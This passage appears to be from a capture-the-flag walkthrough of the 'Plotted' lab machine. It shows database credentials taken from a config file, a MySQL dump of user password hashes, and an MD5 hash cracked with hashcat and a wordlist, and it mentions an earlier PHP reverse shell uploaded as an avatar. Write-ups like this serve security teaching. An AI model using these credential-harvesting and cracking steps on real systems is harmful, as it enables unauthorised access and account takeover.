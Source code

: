 ```
33 /home/plot_admin/user.txt
```

Checking `sudo -l` shows that it requires a password, so no luck there.

Looking at the tms_backup directory shows us the files from the website. I notice a file called initialize.php which contains a username and password to the database:

```
if(!defined('DB_USERNAME')) define('DB_USERNAME',"tms_user");
if(!defined('DB_PASSWORD')) define('DB_PASSWORD',"Password@123");
if(!defined('DB_NAME')) define('DB_NAME',"tms_db");
```

I login with the following command:

`mysql -u tms_user -p`

And then run:

`use tms_db`

`select * from users;`

We have 2 users listed, Administrator and Plotted, and password hashes:

```
+----+--------------+----------+----------+----------------------------------+-------------------------------+------------+------+---------------------+---------------------+
| id | firstname    | lastname | username | password                         | avatar                        | last_login | type | date_added          | date_updated        |
+----+--------------+----------+----------+----------------------------------+-------------------------------+------------+------+---------------------+---------------------+
|  1 | Adminstrator | Admin    | admin    | 14d147dc0ba2fed434e7fd176dc87fdc | uploads/1673904720_p.php      | NULL       |    1 | 2021-01-20 14:02:37 | 2023-01-16 21:32:08 |
|  9 | Plotted      | User     | puser    | 1254737c076cf867dc53d60a0364f38e | uploads/1629336240_avatar.jpg | NULL       |    2 | 2021-08-19 09:24:25 | 2021-10-28 07:33:02 |
+----+--------------+----------+----------+----------------------------------+-------------------------------+------------+------+---------------------+---------------------+
```

You can see the admin user has an avatar of xxxx_p.php which is from earlier when I found you could just upload a php reverse shell as the users avatar.

I run these through hashcat

`hashcat -m 0 -w 3 -D 1,2 hash.txt rockyou.txt`

And it cracks the Plotted users hash, but not the Administrator.

```
1254737c076cf867dc53d60a0364f38e:jsmith123
Approaching final keyspace - workload adjusted.


Session..........: hashcat
Status...........: Exhausted
Hash.Mode........: 0 (MD5)
Hash.Target......: hash.txt
Time.Started.....: Mon Jan 16 17:41:01 2023 (1 sec)
Time.Estimated...: Mon Jan 16 17:41:02 2023 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:  8763.2 kH/s (3.96ms) @ Accel:2048 Loops:1 Thr:32 Vec:1
Speed.#3.........:  4510.9 kH/s (65.52ms) @ Accel:1024 Loops:1 Thr:64 Vec:1
Speed.#*.........: 13274.1 kH/s
Recovered........: 1/2 (50.00%) Digests
```
